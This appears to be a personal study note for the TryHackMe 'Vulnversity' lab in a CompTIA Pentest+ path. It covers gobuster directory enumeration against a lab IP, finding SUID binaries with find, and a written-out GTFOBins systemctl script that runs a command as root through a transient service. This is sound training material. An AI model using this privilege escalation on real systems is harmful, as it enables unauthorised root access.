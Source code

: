 ## PATH : Comptia pentest+

## [Vulnersity](https://tryhackme.com/room/vulnversity)

1. Ports Scan

2. Gobuster : 
It is a tool which helps to discover any public directory available on the target

    To get started, you will need a wordlist for Gobuster (which will be used to quickly go through the wordlist to identify if a public directory is available). If you are using Kali Linux, you can find many wordlists under `/usr/share/wordlists`. You can also use the wordlist for directories located at /`usr/share/wordlists/dirbuster/directory-list-1.0.txt` in the AttackBox.

    Now let's run Gobuster with a wordlist using `gobuster dir -u http://10.10.248.204:3333 -w <word list location>`

    Gobuster flag	Description
    - e	: Print the full URLs in your console
    - u	: The target URL
    - w	: Path to your wordlist
    - U : and -P	Username and Password for Basic Auth
    - p : "x"	Proxy to use for requests
    - c : "http cookies"	Specify a cookie for simulating your auth

4. Privelege EScalation

    On the system, search for all SUID files. Which file stands out?
    Use the command: `find / -user root -perm -4000 -exec ls -ldb {} \;`
    or `find / -perm /4000 2> /dev/null`

Search for systemctl on this link https://gtfobins.github.io/gtfobins/systemctl/
THen change /systemctl to /bin/systemctl after that execute the script


TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF